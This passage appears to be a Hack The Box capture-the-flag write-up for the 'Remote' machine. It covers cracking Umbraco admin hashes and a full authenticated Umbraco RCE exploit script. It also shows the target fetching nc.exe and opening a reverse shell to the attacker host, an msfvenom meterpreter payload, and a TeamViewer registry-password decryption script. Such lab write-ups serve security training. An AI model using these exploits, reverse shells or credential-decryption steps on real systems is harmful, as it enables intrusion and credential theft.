drwx------  2 nobody 4294967294 49152 Feb 20 12:16 bin
drwx------  2 nobody 4294967294  8192 Feb 20 12:16 Config
drwx------  2 nobody 4294967294    64 Feb 20 12:16 css
-rwx------  1 nobody 4294967294   152 Nov  1  2018 default.aspx
-rwx------  1 nobody 4294967294    89 Nov  1  2018 Global.asax
drwx------  2 nobody 4294967294  4096 Feb 20 12:16 Media
drwx------  2 nobody 4294967294    64 Feb 20 12:16 scripts
drwx------  2 nobody 4294967294  8192 Feb 20 12:16 Umbraco
drwx------  2 nobody 4294967294  4096 Feb 20 12:16 Umbraco_Client
drwx------  2 nobody 4294967294  4096 Feb 20 12:16 Views
-rwx------  1 nobody 4294967294 28539 Feb 20 00:57 Web.config
```

After mounting the folder locally I was able to browse through the files at my leisure.  This seemed to be a backup of the files for the website that was hosted on port 80.  The file `Web.config` had a line that told me the version number, but there were so many files that I started searching the web to see if I could find out if there were any useful files here.

* [https://our.umbraco.com/forum/developers/api-questions/8905-Where-does-Umbraco-store-data](https://our.umbraco.com/forum/developers/api-questions/8905-Where-does-Umbraco-store-data)



In the `App_Data/` folder there was supposed to be a `.sdf` file it seemed.



There was indeed a `.sdf` file, creatively named: `umbraco.sdf`.  This was a "standard database format" file, but I was still able to extract the data I needed using `vim`.  There was information for a few different users, including email addresses and password hashes.  I extracted the password hashes and sent them to hashcat for cracking.  

```text
zweilos@kali:~/htb/remote$ hashcat -O -D1,2 -a0 -m100 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA1
Hash.Target......: b8be16afba8c314ad33d812f22a04991b90e2aaa
Time.Started.....: Sun Feb 21 18:57:06 2021 (5 secs)
Time.Estimated...: Sun Feb 21 18:57:11 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1910.9 kH/s (0.88ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/3 (33.33%) Digests
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 3094/14344385 (0.02%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: badgers199 -> bacon95

Started: Sun Feb 21 18:56:47 2021
Stopped: Sun Feb 21 18:57:12 2021
```

The hash `b8be16afba8c314ad33d812f22a04991b90e2aaa` for the `admin` user cracked with the password `baconandcheese`.  



after logging in



Lots of people were using this portal to try to gain access or run enumeration files it seemed. 



### Umbraco 7.12.4 Remote Code Exploit

[https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)

```python
# Exploit Title: Umbraco CMS - Authenticated Remote Code Execution 
# Date: 2020-03-28
# Exploit Author: Alexandre ZANNI (noraj)
# Based on: https://www.exploit-db.com/exploits/46153
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS
# Example: python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig

import requests
import re
import argparse

from bs4 import BeautifulSoup

parser = argparse.ArgumentParser(prog='exploit.py',
    description='Umbraco authenticated RCE',
    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=80))
parser.add_argument('-u', '--user', metavar='USER', type=str,
    required=True, dest='user', help='username / email')
parser.add_argument('-p', '--password', metavar='PASS', type=str,
    required=True, dest='password', help='password')
parser.add_argument('-i', '--host', metavar='URL', type=str, required=True,
    dest='url', help='root URL')
parser.add_argument('-c', '--command', metavar='CMD', type=str, required=True,
    dest='command', help='command')
parser.add_argument('-a', '--arguments', metavar='ARGS', type=str, required=False,
    dest='arguments', help='arguments', default='')
args = parser.parse_args()

# Payload
payload = """\
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml() { string cmd = "%s"; System.Diagnostics.Process proc = new System.Diagnostics.Process(); proc.StartInfo.FileName = "%s"; proc.StartInfo.Arguments = cmd; proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;  proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }  </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/> </xsl:template> </xsl:stylesheet>\
""" % (args.arguments, args.command)

login = args.user
password = args.password
host = args.url

# Process Login
url_login = host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"
loginfo = { "username": login, "password": password}
s = requests.session()
r2 = s.post(url_login,json=loginfo)

# Go to vulnerable web page
url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"
r3 = s.get(url_xslt)

soup = BeautifulSoup(r3.text, 'html.parser')
VIEWSTATE = soup.find(id="__VIEWSTATE")['value']
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}
data = { "__EVENTTARGET": "", "__EVENTARGUMENT": "", "__VIEWSTATE": VIEWSTATE,
    "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
    "ctl00$body$xsltSelection": payload,
    "ctl00$body$contentPicker$ContentIdValue": "",
    "ctl00$body$visualizeDo": "Visualize+XSLT" }

# Launch the attack
r4 = s.post(url_xslt, data=data, headers=headers)
# Filter output
soup = BeautifulSoup(r4.text, 'html.parser')
CMDOUTPUT = soup.find(id="result").getText()
print(CMDOUTPUT)
```

exploit.py

```text
zweilos@kali:~/htb/remote$ python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c whoami
iis apppool\defaultapppool
```

it worked. now it was time to enumerate the system \(very slow however\)

```text
zweilos@kali:~/htb/remote$ python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command ls'

    Directory: C:\windows\system32\inetsrv


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                               
d-----        2/19/2020   3:11 PM                Config                                             
d-----        2/19/2020   3:11 PM                en                                                 
d-----        2/19/2020   3:11 PM                en-US                                              
d-----         7/5/2020   7:07 AM                History                                            
d-----        2/19/2020   3:11 PM                MetaBack                                           
...snipped...           
-a----        2/19/2020   3:11 PM         169984 XPath.dll
```

```text
Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                               
d-----        2/19/2020   3:12 PM                .NET v2.0                                          
d-----        2/19/2020   3:12 PM                .NET v2.0 Classic                                  
d-----        2/19/2020   3:12 PM                .NET v4.5                                          
d-----        2/19/2020   3:12 PM                .NET v4.5 Classic                                  
d-----         7/5/2020   7:05 AM                Administrator                                      
d-----        2/19/2020   3:12 PM                Classic .NET AppPool                               
d-r---        2/20/2020   2:42 AM                Public
```

```text
zweilos@kali:~/htb/remote$ python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command ping 10.10.15.82'

Pinging 10.10.15.82 with 32 bytes of data:
Reply from 10.10.15.82: bytes=32 time=46ms TTL=63
Reply from 10.10.15.82: bytes=32 time=193ms TTL=63
Reply from 10.10.15.82: bytes=32 time=43ms TTL=63
Reply from 10.10.15.82: bytes=32 time=44ms TTL=63

Ping statistics for 10.10.15.82:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 43ms, Maximum = 193ms, Average = 81ms
```

## Initial Foothold

```text
python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command wget 10.10.15.82:8090/nc.exe -OutFile C:\\Windows\\Temp\\n.exe'
```

got a hit on my host

```text
zweilos@kali:~$ python -m SimpleHTTPServer 8090
Serving HTTP on 0.0.0.0 port 8090 ...
10.10.10.180 - - [05/Jul/2020 20:28:42] "GET /nc32.exe HTTP/1.1" 200 -
```

once nc.exe was on the box could now get a shell with:

```text
zweilos@kali:~/htb/remote$ python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a 'C:\\Windows\\Temp\\n.exe 10.10.15.82 9990 -e powershell.exe'
```

## Road to User

```text
PS C:\> whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

ERROR: Unable to get user claims information.
```

not much to work with, though some of the Privileges sounded interesting.

### User.txt

didnt realize for a long time that I already was logged in as a user with access to the flag; I had to hunt for the flag which was in the `Public` user folder `C:\Users\Public`

```text
PS C:\Users\Public> type user.txt
type user.txt
2224ec331009752bfb3d7409cef3e36a
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User

```text
PS C:\> [Environment]::OSVersion
Platform ServicePack Version      VersionString                    
-------- ----------- -------      -------------                    
 Win32NT             10.0.17763.0 Microsoft Windows NT 10.0.17763.0
```

32bit windows 10 teamviewer 7 installed, searching for exploit leads to [https://whynotsecurity.com/blog/teamviewer/](https://whynotsecurity.com/blog/teamviewer/), there author has a python exploit, ~~need to compile to exe~~ search manually in registry with powershell: [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-itemproperty?view=powershell-7](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-itemproperty?view=powershell-7)

```text
PS C:\Windows\Temp> Get-ItemProperty -Path HKLM:\SOFTWARE\WOW6432Node\Teamviewer\Version7 
Get-ItemProperty -Path HKLM:\SOFTWARE\WOW6432Node\Teamviewer\Version7


StartMenuGroup            : TeamViewer 7
InstallationDate          : 2020-02-20
InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
Always_Online             : 1
Security_ActivateDirectIn : 0
Version                   : 7.0.43148
ClientIC                  : 301094961
PK                        : {191, 173, 42, 237...}
SK                        : {248, 35, 152, 56...}
LastMACUsed               : {, 005056B9188D}
MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion                : 1
ClientID                  : 1769137322
CUse                      : 1
LastUpdateCheck           : 1584564540
UsageEnvironmentBackup    : 1
SecurityPasswordAES       : {255, 155, 28, 115...}
MultiPwdMgmtIDs           : {admin}
MultiPwdMgmtPWDs          : {357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77}
Security_PasswordStrength : 3
PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Teamviewer\Vers
                            ion7
PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Teamviewer
PSChildName               : Version7
PSDrive                   : HKLM
PSProvider                : Microsoft.PowerShell.Core\Registry
```

Got tv info stored in registry, including the Management password

```python
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")
hex_str_cipher = "357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77"			# output from the registry

ciphertext = binascii.unhexlify(hex_str_cipher)

raw_un = AESCipher(key).decrypt(iv, ciphertext)

print(hexdump.hexdump(raw_un))

password = raw_un.decode('utf-16')
print(password)
```

using the python exploit to decrypt the password stored in the reg key I found

```text
zweilos@kali:~/htb/remote$ python3 teamviewer-pass.py 
00000000: 72 00 33 00 6D 00 30 00  74 00 65 00 5F 00 4C 00  r.3.m.0.t.e._.L.
00000010: 30 00 67 00 69 00 6E 00  00 00 00 00 00 00 00 00  0.g.i.n.........
None
r3m0te_L0gin
```

This password didn't seem to do me any good. During research found a post exploit metasploit module that says it will find tv pass, I wanted to see if it was the same one. [https://www.rapid7.com/db/modules/post/windows/gather/credentials/teamviewer\_passwords](https://www.rapid7.com/db/modules/post/windows/gather/credentials/teamviewer_passwords) [https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer\_passwords.md](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer_passwords.md)

> Any Windows host with a `meterpreter` session and `TeamViewer 7+` installed.

So I will need a meterpreter session

### Getting a shell

```text
zweilos@kali:~$ msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.15.82 LPORT=4444 -f exe -o rev.exe
```

sending msfvenom payload to remote system

```text
python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a 'C:\\Windows\\Temp\\r.exe'
```

[https://security.stackexchange.com/questions/133722/how-to-set-reverse-tcp-connection-when-doing-pentesting-in-vms](https://security.stackexchange.com/questions/133722/how-to-set-reverse-tcp-connection-when-doing-pentesting-in-vms)

```text
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.15.82
LHOST => 10.10.15.82
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.15.82:4444 
[*] Sending stage (176195 bytes) to 10.10.10.180
[*] Meterpreter session 1 opened (10.10.15.82:4444 -> 10.10.10.180:49711) at 2020-07-05 23:15:59 -0400

meterpreter > run post/windows/gather/credentials/teamviewer_passwords

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
[+] Passwords stored in: /root/.msf4/loot/20200705232131_default_10.10.10.180_host.teamviewer__634180.txt
[*] <---------------- | Using Window Technique | ---------------->
[*] TeamViewer's language setting options are ''
[*] TeamViewer's version is ''
[-] Unable to find TeamViewer's process
```

!R3m0te! from meterpreter, different than before...maybe this one works to log in.

### Root.txt

```text
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
ed57e228cd4d76d6987d89fae6d5a77d
```

Thanks to [`mrb3n`](https://www.hackthebox.eu/home/users/profile/2984) for &lt;something interesting or useful about this machine.

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

